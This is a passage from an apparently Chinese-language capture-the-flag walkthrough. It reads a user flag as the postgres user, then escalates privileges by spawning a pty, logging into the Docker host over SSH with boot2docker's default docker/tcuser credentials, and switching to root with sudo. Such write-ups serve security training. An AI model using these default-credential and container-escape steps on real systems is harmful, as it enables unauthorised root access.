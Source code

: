 ```

flag
```
postgres@bc56e3cc55e9:/home/tony$ cd ~
cd ~
postgres@bc56e3cc55e9:/var/lib/postgresql$ ls
ls
11
user.txt
postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt
cat user.txt
f0183e44378ea9774433e2ca6ac78c6a  flag.txt

```

# 提权

从21端口枚举到的信息知道当前系统处于一个docker环境

根据[这个文档](https://github.com/boot2docker/boot2docker#ssh-into-vm)得知docker的默认密码是：

以及[这篇privilege-escalation-boot2docker](https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/)

```
docker / tcuser
```


python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh docker@172.17.0.1

进入C盘拿到ssh的秘钥
```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
ssh docker@172.17.0.1
docker@172.17.0.1's password: tcuser

   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ sudo su
sudo su
root@box:/home/docker# cd /root
cd /root
root@box:~# ls                                                                 
ls
root@box:~# cd /                                                               
cd /
root@box:/# ls                                                                 
ls
bin           home          linuxrc       root          sys
c             init          mnt           run           tmp
dev           lib           opt           sbin          usr
etc           lib64         proc          squashfs.tgz  var
root@box:/# cd /c/                                                             
cd /c/
root@box:/c# ls                                                                
ls
Users
root@box:/c# cd users                                                          
cd users
bash: cd: users: No such file or directory
root@box:/c# cd Users                                                          